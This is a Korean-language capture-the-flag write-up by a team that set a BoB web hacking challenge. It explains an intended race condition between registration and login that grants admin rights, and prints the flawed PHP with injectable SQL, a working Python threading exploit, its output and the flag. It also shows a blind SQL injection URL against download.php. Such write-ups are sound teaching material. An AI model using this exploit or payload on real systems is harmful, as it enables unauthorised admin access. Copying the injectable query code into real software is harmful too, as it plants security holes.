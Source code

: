 BoB Web Hacking CTF 강남백반 팀 Write-Up
============
2016.08.27 강남 미림타워 BoB 센터에서 작성<br>
2016.08.31 한양대학교 ERICA 캠퍼스에서 업로드
<br>
출제도 풀이도 모두 즐거웠던 BoB Web Hacking CTF가 끝이 났습니다. 출제를 할 당시에, 많은 분들이 해킹에 능통하시기 때문에 처음에는 조금 더 복잡한 형태의 문제를 내길 바랬습니다만, 만들면 만들수록 억지스러운 방법을 요구하는 것 같아서 최대한 자연스러운 형태로 접근하기 어려운 문제를 내어보고자 하는 취지에서 간단한 Race Condition 문제를 출제 했습니다. 실제로 대회에서도 기대했던 대로 3-4팀 정도가 풀어 주셨습니다.
<br>
# 1. 의도한 취약점 : Race Condition
원래의 의도는 게시판에서는 어떠한 취약점도 발견이 되지 않도록 해서, 게시판 취약점을 찾는 것을 포기하게 하고, 로그인 부분에서 두 번의 Request가 들어가는 것, 그리고 관리자 전용 로그인 페이지와 일반 유저의 로그인 페이지가 하나의 인증을 경유한다는 점을 들어 인증 정보를 따로 보내 준다는 것을 눈치 채고 Race Condtion을 이용한다는 시나리오입니다.<br><br>
Auth.php를 보면
<pre><code>
    $query = "INSERT INTO member (id,pass,name,mail,phonenumber) VALUES ('$nick','$word','$name','$mail','$number')";

	$results = mysqli_query($db,$query);
		
	$sql = "INSERT into access (id, Auth) values ((select id from member where id='$nick'), 'TRUE');";

  	mysqli_query($db, $sql);

	mysqli_close($db);
	
</code></pre>
위와 같이 두 번의 INSERT 문을 거칩니다. 그 말은 곧, 두 쿼리문 사이에 미세한 시간의 차이가 발생한다는 의미입니다.<br><br>
그리고 관리자 로그인 페이지와 일반 로그인 페이지가 모두 거치는 인증 페이지인 login_check.php를 보면,
<pre><code>         
        $uid = $arr['id'];
      		$sql = "SELECT Auth from access where id='$uid' and Auth='TRUE';";
		$result = mysqli_query($db,$sql);
		$arr = $result->fetch_assoc();
	
		if($arr['Auth']){
		$_SESSION['user_id'] = $uid;
		echo "<script>alert(\"로그인 성공~!! $uid 님 환영합니다!\");
		location.replace('list.php');</script>";
		}

		else{
		$_SESSION['user_id'] = $uid;
		$q = "update member set role='admin' where id='$uid'";
		$result = mysqli_query($db,$q);
		echo "<script>alert(\"관리자님 환영합니다!\");
		location.replace('list.php');</script>";
		}
		
</code></pre>
Auth 인자가 True일 경우에는, 일반 사용자로 로그인이 되고, False일 경우에는 관리자 권한 재부여와 함께 관리자 페이지로 이동을 합니다. 이 때, 회원가입에서 Auth 인자가 부여되기 전에 로그인을 하면, Auth 인자는 NULL값이므로, False로 취급되어 관리자 권한을 부여받을 수 있게 되는 취약점이 있는 것입니다. 
<br><br>
저는 다음과 같은 공격 코드를 작성하여 관리자 권한을 취득 했습니다.
<pre><code>
#!/usr/bin/env python3

import requests
import string
import re
import random
import threading

url_register = "http://192.168.1.103/auth.php"
url_login = "http://192.168.1.103/login_check.php"

def register(username, password):
	data = {'nick' : username, 'word' : password,'words' : password, 'name' : 'hacker', 'mail' : 'admin@hacker.com', 'number' : '01022223333'}
	a = requests.post(url_register, data=data).content.decode('UTF-8')
	if a.find("성공") != -1:
		print("등록 성공")
	else :
		print("등록 실패")

def login(username, password):
	data = {'id' : username, 'pw' : password}
	c = requests.post(url_login, data=data).content.decode('UTF-8')
	if c.find("관리자님") != -1:
		print("관리자 아이디 : "+username+" 관리자 비밀번호 : "+password)
	else:
		print("일반 계정이 생성됨")

while True:
	username = ''.join(random.choice(string.ascii_letters) for _ in range(10))
	password = 'hacker'

	t1 = threading.Thread(target=register, args=(username, password,))
	t2 = threading.Thread(target=login, args=(username, password,))
	t1.start()
	t2.start()
	t1.join()
	t2.join()
	
</code></pre>
위 코드의 실행 결과는 다음과 같습니다.
<pre><code>
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
등록 성공
관리자 아이디 : doUEALiMWf 관리자 비밀번호 : hacker
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공

</code></pre>

몇 번의 시도 끝에 관리자 계정이 생성이 되고, 해당 관리자 계정을 이용해 관리자 페이지로 접근을 하면, 회원 데이터베이스를 열람할 수 있으므로, 그 곳에 있는 플래그 값인 **MoM\_NoW\_1\_Kn0W\_Wh4T\_tIM1NG\_I5**를 확인 할 수 있습니다.

# 2. 의도하지 않은 취약점 : SQL Blind Injection

게시판을 완전히 취약점 없는 상태로 만들고자 했던 저희의 바램과는 달리, 게시판에는 취약점이 있었는데, 그것이 SQL Blind Injection입니다. <br>
<pre><code>http://192.168.1.103/download.php?No=IF((1=2),178,176)</pre></code>
위와 같이, download.php의 No 인자에 SQL Blind Injection이 가능해서 DB의 대부분의 정보를 열람할 수 있습니다.<br>
간단한 스크립트를 이용하면 플래그를 알아내는 것도 시간 문제였을 것입니다. <br>
저희의 풀이는 여기까지입니다. 저는 게시판 개발자를 죽이러 가야해서 여기서 그만 줄이겠습니다. 감사합니다.